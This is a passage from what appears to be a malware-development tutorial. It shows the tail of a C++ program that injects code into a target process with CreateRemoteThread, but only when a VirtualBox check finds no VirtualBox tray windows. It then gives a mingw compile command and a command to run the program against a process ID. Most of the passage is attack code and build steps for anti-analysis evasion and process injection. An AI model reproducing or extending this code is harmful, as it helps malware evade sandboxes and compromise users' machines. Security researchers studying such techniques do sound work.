```cpp

    rt = CreateRemoteThread(ph, NULL, 0, 
    (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
    CloseHandle(ph);

    return 0;
  } else {
	printf("virtualbox VM detected :(");
    return -2;
  }
}
```

As you can see we just check if windows with the following class names are present in the OS:

```cpp
VBoxTrayToolWndClass
VBoxTrayToolWnd
```

Let's go to compile:

```cpp
x86_64-w64-mingw32-g++ hack2.cpp -o hack2.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![injection](./images/43/2022-03-15_17-36.png){width="80%"}    

And run:   

```cpp
.\hack2.exe 1304
```
